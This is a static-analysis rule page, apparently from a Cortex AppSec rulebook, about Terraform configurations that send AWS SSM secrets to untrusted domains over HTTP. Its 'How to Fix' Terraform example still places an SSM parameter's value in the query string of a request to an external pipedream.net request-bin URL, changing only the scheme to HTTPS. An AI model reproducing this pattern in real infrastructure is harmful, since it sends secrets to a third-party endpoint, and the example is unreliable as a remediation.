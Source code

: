 == AWS Terraform sends SSM secrets to untrusted domains over HTTP


=== Rule Details

[cols="1,2"]
|===
|Cortex AppSec Rule ID |APPSEC2_AWS_36
|Category |Public Exposure - APIs
|Provider |AWS
|Severity |LOW
|Framework |Terraform
|Mapped CSPM/KSPM Rule |None
|===


=== Impact
Sending secrets such as passwords and encryption keys over an untrusted network or domain can increase the risk of those secrets being intercepted and compromised.
This is because the secrets may not be encrypted while in transit, making it easier for attackers to intercept and read them.
By ensuring that AWS Terraform does not send secrets to untrusted domains over HTTP, you can help protect the confidentiality of your secrets and reduce the risk of them being compromised.
Instead, you should use secure protocols such as HTTPS or SSL/TLS to transmit secrets, as these protocols can help protect the secrecy of the secrets in transit.

=== How to Fix


*Terraform* 




[source,go]
----
resource "aws_ssm_parameter" "param2" {
  name = var.parameter_name
  type = "String"
  value = "foo"
}

data "http" "nonleak2" {
  url = "https://enp840cyx28ip.x.pipedream.net/?id=${aws_ssm_parameter.param2.name}&content=${aws_ssm_parameter.param2.value}"
}
----
